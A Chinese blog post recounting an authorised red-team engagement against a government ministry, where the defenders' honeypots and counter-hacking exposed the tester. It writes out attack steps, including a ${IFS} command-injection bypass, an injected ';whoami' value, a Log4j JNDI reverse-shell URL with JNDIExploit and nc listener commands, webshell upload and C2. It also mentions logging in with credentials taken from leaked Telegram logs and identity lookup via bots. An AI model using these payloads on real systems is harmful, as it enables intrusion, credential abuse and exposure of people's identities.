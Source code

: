 ```yaml
---
title: 记一次对某部委的渗透测试
published: 2025-03-10
description: ''
image: 'https://tse3-mm.cn.bing.net/th/id/OIP-C.W-oppI6wXTHjwzyCanibogHaEj?w=315&h=194&c=7&r=0&o=5&dpr=1.3&pid=1.7'
tags: [WEB]
category: '网络安全'
draft: false 
lang: ''
---
```


这周接到上面的通知去给某政府单位进行资产梳理和渗透测试，这个单位的安服非常有实力，曾经成功抵御了某带编号的境外apt组织的攻击并给出溯源报告。一开始领导让我去搞这个项目的时候我是很抵触的，毕竟aptxx都打不穿的单位你让我去是不是有点太幽默。转念一想，有机会见识一下顶尖蓝队和企业安全策略也没啥不好的。我就不信邪了看看这怎么个事——当然最后结果也是不出所料的被反清得裤衩都不剩了。以下是整个测试过程的一些印象比较深刻的片段。本文发布已经过目标单位的授权，涉及到的信息图片等均厚码处理，文章内容仅供技术交流使用

![](记一次对某部委的渗透测试/image-20250125234924093.png)

1.前期按部就班做了一些针对性的资产梳理和收集工作，备案反查，子域，ip网段资产，js采集。很快就在某子域下发现一个?str=传参的命令执行漏洞，用最简单的${IFS}就可以绕过过滤执行命令，并且有回显。这个蜜罐还是很明显的，首先洞太突兀了，一级子域下边留这么一个脑残的命令执行到现在还不修我是不信的。第二个，这个str参数在这里没有任何意义，正常用户点击这个web地址的时候用不到，他也实现不了任何业务功能。最后f12看一下页面加载了很多第三方js文件，这也是罐子的一大特征，遂马上跑路，没有中招 

2.利用酷酷习题大法，在tg泄露的几百万行日志.txt中找到了此部委某处资产的账号密码，成功登录

![](记一次对某部委的渗透测试/image-20250125234943243.png)

看起来系统似乎还是挺老的，没有waf，先尝试寻找sql注入，挨个点击可能和数据库交互的页面功能区域，把burp里请求流量全部保存联动sqlmap -r risk=5 level=3开跑，无果，尝试手注依然无果。想要进行后台文件上传，然后发现根本就没有上传点，屋檐了  
继续测试，找到鉴权的api接口，在/api/v2/auth/checkUser/usrid.php 这里，如图，想要垂直越权一下获取管理员权限

![](记一次对某部委的渗透测试/image-20250125235002962.png)

猜测管理员用户名就是admin，passwordComplex参数只要输对了验证码就是0，不用管。temp和最重要的加密的那个_Monster到底是啥玩意，(我真没见过谁家鉴权参数叫这个名字的)，怎么生成的，实在想不明白。想翻阅js看看在前端有无相关的参数的接口，加密了，本人js逆向就是一坨，就在想放弃找越权的时候网站出现了卡顿，这个代码也挺神经的，如果src获取图床url的时候没有成功，会在返回里显示“出现xxx故障错误代码xxx请联系xxxx(软件开发商联系方式)”，6。然后交给社工哥顺利的找到了此套软件的源码

审计鉴权代码发现其实是用一个默认密钥+时间戳+用户名的方式生成了那个_Monster参数，temp参数和越权没关系，系统管理员和普通用户都是一样的，成功通过接口修改_Monster和id的值以admin身份登录入系统

![](记一次对某部委的渗透测试/image-20250125235050598.png)

管理员后台的功能就比较多了，有上传点，而且谢天谢地没有任何对文件后缀的检验，就是上传过后不会回显路径。这个问题不大因为源码都搞到手了，看源码$uploadPath就行。然后就是XG拟态生成器生成免杀webshell上传连接后接管服务器，哥斯拉插件绕过disable_fouction丝滑小连招

![](记一次对某部委的渗透测试/image-20250125235058874.png)

后续通过shell上线c2的时候渗透内网的内容因保密需要无法透露。这个资产打到的只是该部委的一处边缘网段，内网机器虽然挺多但是并非核心生产环境，也没有敏感资料。然而这基本上就是我的全部成绩了，后续就是蓝队高手四擒年某的故事  
  
3.扫到主域名下某路径back.zip内容，一打开看居然是网站源码，各个路径都能对上。审计源码内容，这个info.php的漏洞点代码如下

![](记一次对某部委的渗透测试/image-20250125235109497.png)

有个filter_var()的函数进行过滤，白名单预定义了用户操作，FILTER_SANITIZE_STRING是 PHP 中的一个过滤器，清洗用户字符串输入的 HTML 标签和特殊字符来防止xss，但是这俩过滤都是平时ctf里绕过烂了的东西，/info.php?action=list;whoami 直接命令执行。当时我愣了一下，这个据说抵御过aptxx组织攻击的单位这么简单就搞到主站rce了？转念一想也不是不可能，apt组织写各种免杀和加载器厉害，打突破都是靠钓鱼，我字典好正好扫到.zip直接白盒秒了，遂传参狠狠的写入shell，疑似有宝塔文件锁一类的东西文件无法落地，就执行命令nc反弹了一下到我vps上  

后来我才知道这堆byd安服大玉想象力之丰富，那个back.zip就是他们故意放到服务器上的，压缩包里info.php的内容也是故意这么写的，实际上真正的info.php根本不长这样，传参管道符或者分号的时候后端跟进的代码不是shell_exec()，而是一个他们自研的蜜罐接口，就看哪个冤种发送action=list;，直接标红ip然后态感设备一顿响，我后续执行的所有操作几个值班的蓝队哥看得一清二楚。nc反弹的时候vps地址也漏了。溯到ip一波反清各类c2框架的端口，cs的50050和viper的60000。正好我是超级懒人，接收反弹shell，漏扫，cs和viper和daybreak和灯塔都部署在这台机器上面，而且全都是弱口令，蓝队哥用day或者爆破，拿到了我viper的账号密码，并且不知道通过什么手段经过viper的后台直接拿到了我服务器的ssh账号密码？我ssh连服务器的时候没挂代理，人家在服务器上翻一下登录日志，酒店公网ip遂暴露 

4.具体过程无法透露，通过某设备0day拿到生产环境数据库账号密码，刚刚连上就触发了数据库日志审计秒掐端口禁止外连，最后的危害就是截了张图大概知道了他有哪几个表，数据一点都没能泄露，没脾气。只能安慰自己拔线拔得这么快起码证明没踩到罐子

![](记一次对某部委的渗透测试/image-20250125235140892.png)

 5.整理资产看到某公网oa系统，正好前段时间审了这个oa的sql注入0day，发送poc

![](记一次对某部委的渗透测试/image-20250125235148977.png)

![](记一次对某部委的渗透测试/image-20250125235152348.png)

6.扫到了公网上部署的nacos系统，并且工具检测出来有Hessian反序列化，拿🦶想都知道这种单位不可能傻到公网上放nacos还留着nday不修，一眼罐子，于是没有深入
测试结束过后问了一句，然后人家说这个还真特么不是罐子，只是资产归属不属于他们单位负责，气死我了

7.接下来连续的几天都一点成果没有，对着搜集到的一堆资产扫描器猛扫，连个debug的信息泄露都扫不到。挂burp手动测试功能点，测了半天也没有，源码泄露也找不到，那些个cms也都是自研的或者闭源的，手上无day可打，黑盒真的太难了。转变思路重新收集了一下资产信息拓展攻击面。终于找到了某系统存在Log4j漏洞
使用工具JNDI-Injection-Exploit，直接
`java -jar JNDIExploit.jar -l 8888 -p 6666 -i 本机ip` 

然后`nc -lvvp 10001`开启监听  浏览器打开url访问
http://xxxx.xxxx/solr/admin/cores?action=${jndi:ldap://xxxxx:8888/Basic/ReverseShell/xxxxxx/10001
但是vps上一直收不到shell，有补丁吗？查了一下官方commit里对于Log4j漏洞的修改意见，一个是限制LDAP和RMI的访问类，还有就是
https://github.com/apache/logging-log4j2/commit/d82b47c6fae9c15fcb183170394d5f1a01ac02d3
里边，对于lookup方法的修改，你想要new URI(name)处报错但是name又得被jndi正常识别，这里就只能用marshalsec方法反弹shell了，因为marshalsec构造LADP服务的时候不走那个handle URL的语句块，不会导致解析错误。

不过这种方法复现的话挺麻烦的，要自己写一个Exploit.class放到web服务上，具体步骤看
https://mp.weixin.qq.com/s/4cvooT4tfQhjL7t4GFzYFQ
，这里因为篇幅原因就不多说
![](6c1a39f7eb57d8b958241f3f7bbbdb70.png)

拿到shell，机器出网能直接wget下东西，无敌免杀bypass杀软顺利上线cs。这个内网比上文提到的那个重要多了，此时感觉自己非常的黑客，开始幻想自己单兵apt打穿某某部委，开心得不行

![](记一次对某部委的渗透测试/image-20250125235308704.png)

内网部分还是因为保密原因不能提，横向过程中阻力挺大，捣鼓半天一台新的机器都没横向成功。好不容易跌跌撞撞拿到了一台windows的票据，cs上线文件管理看看desktop是咋回事

![](记一次对某部委的渗透测试/image-20250125235317652.png)

在桌面文件夹发现了惊人的Powervpn.exe以及使用手册.pdf，笑嘻了。由于是exe，下载下来先看df报不报毒，df和卡巴都不报毒，丢沙箱看一下，有异常行为，但多半是误报(云沙箱经常犯病) ，感觉文件安全没问题，遂大胆运行  
后来知道这堆蓝队哥居然在内网每台办公机器的桌面都放了钓鱼vpn.exe，无敌了，他也不怕自家员工给他一顿点。并且免杀df火绒360晶核卡巴，甚至反虚拟机，vm运行弹窗提示必须物理机运行(我这种莽夫直接本机右键了，人家白多花了这么个心思)。你自己边界突破进去横向拿到的权限，在这台机器上下的文件，杀软也不报毒，这谁特么能想到是个马子。于是我那台破笔记本也被蓝队控制，然后电脑桌面文件夹里就有简历.doc

总结：花了差不多十天的渗透时间，就只拿下该部委webshell两个，其中一个为gov域名；边缘办公系统内网机器xx台，数据库半个(连上没三分钟就应急了，一条数据没看到，所以算半个)。然后被溯源到攻击服务器一台，通过反制手段拿到部署在上面的viper和cs的账号密码，以及服务器ssh账号密码。被钓鱼导致用于攻击的笔记本被蓝队上线。暴露了酒店公网ip地址，人家只是尊重我的隐私没用蓝队神秘小工具翻我设备而已，不然消费记录结合公网ip地理位置画像一下就知道我酒店门牌号是哪个了。通过笔记本桌面文件里的简历.doc获得了我的姓名手机号qq号和大头照，使用纸飞机酷酷bot轻松反查到身份证号。最后捕获到没利用成功的某oa前台sql注入一个。一句话概括，东西没打到几个底裤漏完，算了一下rating估计在0.4到0.5之间，大败而归

最后交流的时候和人家聊了一下才知道这几个蓝队哥里边有之前大厂实验室的渗透岗，意料之中，只有做过攻击队的老油条才能想出往back.zip里边塞假源码骗人进罐子这样的狠活。一方面人家太懂红队的心理了，完美预判了常见渗透流程中的每一件事情，非常合理且巧妙的在这些过程中给你挖坑。另一方面硬实力也没得说，那个监控特定参数并且能够高交互回显的蜜罐接口是人家自研的产品，自己手搓代码写出来的；绕过各路杀软的钓鱼exe也是人家自己做的免杀(今六月份的做的到现在依然能够bypass各大杀软)，以及通过viper后台拿到服务器ssh权限，这个我至今不知道他们是咋做到的。国护的时候我也拆过那些四蹲五蹲的黑店靶标，都是还没毕业的大学生，技能也只有很被动的封c段加拔线，被打穿了就在裁判那里嘴遁机关枪死不承认。但是这次某部委原厂的安全团队真是打得我没脾气，人家确实是把蓝队和企业安全这块玩明白了。现在网安方面很多文章以及研究都把重点放在了攻击的各种姿势上，往往忽略了防御其实也是一门艺术，能整出很多花样的，不仅仅只有刻板印象里龟缩起来的各种封。这次演练完了也是老老实实认识到了和行业内顶尖高手的差距，之前娱乐圈炸鱼那是心高气傲，现在发现到了高手过招的这个层次自己被别人当鱼炸了，还是得继续多看文章多学习

